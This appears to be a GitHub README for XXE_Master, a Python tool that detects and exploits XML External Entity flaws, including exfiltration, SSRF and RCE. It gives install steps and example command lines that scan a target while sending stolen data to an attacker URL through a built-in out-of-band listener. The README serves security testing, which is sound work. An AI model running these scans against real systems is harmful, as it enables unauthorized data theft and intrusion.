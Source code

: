 # XXE_Master

![xmaster-logo](logo.png)

XXE_Master is a powerful tool designed to detect, and exploit a wide range of XML External Entities(XXE), including data exfiltration, file inclusion, SSRF, RCE, and XSS. it supports variety of attack vectors through its rich set of payloads designed  for both direct and blind XXE exploitation.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications with precisions.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through a built-in OOB listener for blind XXE attacks.
- **cross platform:** Supports Linux, Windows, and macOS.

## Requirements
- Python 3.x
- Required Python packages (installed via `setup.py` or `requirements.txt`)

## Installation

### Installation Steps
1. Clone the repository: 
shell
```
git clone https://github.com/uwimanaMuhiziElie/xxe_master.git
```
2. Navigate to the project directory:
shell
```
cd xxe_master
 ```
3. Install XXE_Master: 
shell
```
python setup.py install
```

## Usage
- For usage instructions, run 
shell
```
python xmaster.py --help
```

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration. 
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com
  ```

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 8000 for out-of-band data. the tool starts an attacker server in the background to handle out-of-band data exfiltration automatically. The server stops when the scan completes.
  shell
  ```
  python xmaster.py http://www.targetsite.com --attacker-url http://your-attacker-url.com --delay 5
  ```

## Examples 
1.Scan a Target for XXE Vulnerabilities
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate
```
2.Scan with Custom Delay
shell
```
python xmaster.py http://www.exampletest.com --attacker-url http://localhost:8000/exfiltrate --delay 5
```

## Logging
The tool logs all detected vulnerabilities and exfiltrated data in the logs/attacker_server.log file. This includes the OOB data captured during blind XXE attacks.

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author

### Elie Uwimana 😎
- [LinkedIn](www.linkedin.com/in/elie-uwimana)




            

